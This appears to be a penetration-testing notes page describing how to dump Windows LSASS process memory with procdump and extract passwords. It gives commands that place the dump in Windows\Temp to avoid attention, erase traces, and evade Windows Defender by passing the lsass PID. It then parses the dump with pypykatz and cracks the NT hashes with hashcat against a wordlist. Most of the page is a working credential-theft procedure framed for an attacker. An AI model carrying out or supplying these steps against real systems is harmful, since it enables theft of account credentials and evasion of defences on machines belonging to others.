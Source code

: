 # Procdump LSASS

## Procdump

{% embed url="https://en.hackndo.com/remote-lsass-dump-passwords/" %}

procdump is a tool created and signed by microsoft for sysadmins and developers to dump a running process memory. It attaches to the process, reads its memory and write it into a file.

{% embed url="https://docs.microsoft.com/en-us/sysinternals/downloads/procdump" %}

the syntax is like this:

```text
procdump --accepteula -ma <processus> processus_dump.dmp
```

## Dumping LSASS from Memory

#### it’s possible to dump lsass memory on a host, download its dump locally and extract the credentials using Mimikatz.

{% hint style="info" %}
Procdump can be used to dump lsass, since it is considered as legitimate thus it will not be considered as a malware.To do so, send procdump to the server eather by a meterpreter session or nc or smbclient.py from the impacket suit.
{% endhint %}

#### try to upload it to windows/temp directory to avoid attention Once uploaded, procdump needs to be executed in order to create this lsass dump.

```text
procdump.exe -accepteula -ma lsass C:\\Windows\\Temp\\lsass.dmp
```

The dump then needs to be downloaded on the attacker’s host, and traces on the remote host should be erased.

#### Credentials can be retrieved with Mimikatz: the first line loads the memory dump, and the second one retrieves the secrets.but we need a windows system for that.

## Pypykatz

This technique is very practical since it does not generate much noise and only legitimate executable is used on the targeted hosts. pypykatz is usefull for situations when we want to run everything on a linux machine:

{% embed url="https://github.com/skelsec/pypykatz" %}

download pypykatz from repo or with pip3

```text
pip3 install pypykatz
pip3 install minidump minikerberos aiowinreg msldap winsspi
```

open the dump file:

```text
pypykatz lsa minidump lsass.dmp
```

now look for the NT values in the out put. \(windows hashed passwords\) and copy them into a file we crack the hashes with hashcat then:

```text
hashcat -m 1000 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt --status
```

{% hint style="info" %}
dumping lsass is considered as suspicious activity by Windows Defender. When the dumping process is finished, Windows Defender removes the dump after a few seconds. If we have very good connectivity and the dump is not too big, it is possible to download the dump before it’s being deleted.by providing it with lsass PID, Windows Defender no longer complains.We just have to find lsass PID, using the command tasklist for example.
{% endhint %}

```text
tasklist /fi "imagename eq lsass.exe"
```

Once we retrieve this PID, we just use it with procdump

```text
procdump -accepteula -ma 640 lsass.dmp
```

the dump process above can be dione automatically with spraycatz:

{% embed url="https://github.com/aas-n/spraykatz" %}



